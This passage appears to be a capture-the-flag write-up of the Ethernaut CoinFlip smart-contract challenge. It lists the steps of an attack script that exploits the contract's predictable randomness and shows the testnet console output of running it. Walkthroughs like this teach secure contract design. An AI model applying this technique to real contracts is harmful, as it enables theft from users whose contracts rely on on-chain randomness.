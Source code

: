 ```solidity {lineos=table,hl_lines=[17,18,19,20,21],lineofstart=1}
    hacker = accounts.add(config['wallets']['from_key'])
    attack(target, hacker)
```

The attack vector is straightforward and can be summarized in few steps:

1. We will start deploying our malicious contract, by passing the original CoinFlip contract’s address (`target`) and our wallet address within the `from` field, which is used to specify the Account to deploy the contract form.
2. We use the `at` method (as defined in the [core-account.rst](https://github.com/eth-brownie/brownie/blob/master/docs/core-accounts.rst) documentation) to create an object from an arbitrary address. Useful later to obtain the number of `consecutiveWins`.
3. Last, our attack is executed ten times through the `deploy_attack.attack` call, which will call the `hack` method defined in the `coinflipattack.sol` contract.
4. Once our attack has guessed ten times the coin’s flip, we will proceed to destroy our contract and submit the instance, successfully passing this challenge.

To execute this attack, just run the following command:

```python
root@vmi828562 ~/r/e/coinflip-03 [1]# brownie run attack main "0x9c654f6E399F3b39415DcA321A0b50921C31917d" --network rinkeby
Brownie v1.18.1 - Python development framework for Ethereum

Coinflip03Project is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x237057edd9d989fc3318ab0d82d05fd51748154d97c8c6ecd4ca2d06522ba8c9
  Gas price: 1.16223081 gwei   Gas limit: 235118   Nonce: 44
  CoinFlipAttack.constructor confirmed   Block: 10723036   Gas used: 213744 (90.91%)
  CoinFlipAttack deployed at: 0x30AFa4bA16e2946ac1063d8c86f986B0E98a2E38

Address originating the attack:  0x30AFa4bA16e2946ac1063d8c86f986B0E98a2E38
Transaction sent: 0x54464cdd860d9b2fd3577d530cfc5a74cac61d34369a18cbc1fe4b62942672fb
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 45
  CoinFlipAttack.attack confirmed   Block: 10723037   Gas used: 41712 (16.68%)

Transaction sent: 0x9ef82da3aa6760651b625ac94bb69bce4284204834346a830158a80733e6a626
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 46
  CoinFlipAttack.attack confirmed   Block: 10723038   Gas used: 41732 (16.69%)

Transaction sent: 0xca68cbe9d0eb04898f5c6e6dbdaa78a9deb6ef197d863762340fcedce17196ca
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 47
  CoinFlipAttack.attack confirmed   Block: 10723039   Gas used: 41712 (16.68%)

Transaction sent: 0x1a38621634659e8069b90f1361be1d140927475174ce8809f3d7e6929c02f287
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 48
  CoinFlipAttack.attack confirmed   Block: 10723040   Gas used: 41712 (16.68%)

Transaction sent: 0xfaac369cce1c7464e9c1604301be838914788d1c5e301feee29a6505ec2c9ece
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 49
  CoinFlipAttack.attack confirmed   Block: 10723041   Gas used: 41732 (16.69%)

Transaction sent: 0xb19810a5c590ffc470528a20e618e475ec5b45ce099e14e728b63464fd2ad2fa
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 50
  CoinFlipAttack.attack confirmed   Block: 10723042   Gas used: 41712 (16.68%)

Transaction sent: 0xbff2dceb8092093d02c937f0e5ca4f17443db4715502c688cbc1ff32c95bf270
  Gas price: 1.16223081 gwei   Gas limit: 250000   Nonce: 51
  CoinFlipAttack.attack confirmed   Block: 10723043   Gas used: 41712 (16.68%)

Transaction sent: 0xc5169fd82123c87be97647c9ffec276dc9ad358ac07ff7cccfcf170174f22f08
  Gas price: 1.162230809 gwei   Gas limit: 250000   Nonce: 52
  CoinFlipAttack.attack confirmed   Block: 10723044   Gas used: 41732 (16.69%)

```
